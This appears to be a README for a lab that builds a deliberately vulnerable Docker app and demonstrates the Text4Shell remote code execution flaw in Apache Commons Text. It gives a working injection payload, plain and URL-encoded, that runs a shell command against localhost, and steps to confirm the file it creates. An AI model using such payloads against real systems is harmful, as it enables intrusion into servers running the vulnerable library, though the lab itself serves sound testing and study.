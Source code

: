 ### Install maven - [maven-linux](https://www.digitalocean.com/community/tutorials/install-maven-linux-ubuntu) 
-------------


1. Maven install to create the fat jar

```
mvn clean install
```

2. Docker build

```
docker build --tag=text4shell .
```

3. Docker run

```
docker run -p 80:8080 text4shell
```

4. Test the app

```
http://localhost/text4shell/attack?search=<anything>
```

5. Attack can be performed by passing a string “${prefix:name}” where the prefix is the aforementioned lookup:

```
${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/foo')}
```

http://localhost/text4shell/attack?search=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27touch%20%2Ftmp%2Ffoo%27%29%7D

6. You can also try using `dns` or `url` prefixes.

7. Get the container id

```
docker container ls
```

8. Get into the app

```
docker exec -it <container_id> bash
```

9. To check if above RCE was successful (You should see a file named `foo` created in the `/tmp` directory):

```
ls /tmp/
```

10. To stop the container

```
docker container stop <container_id>
```
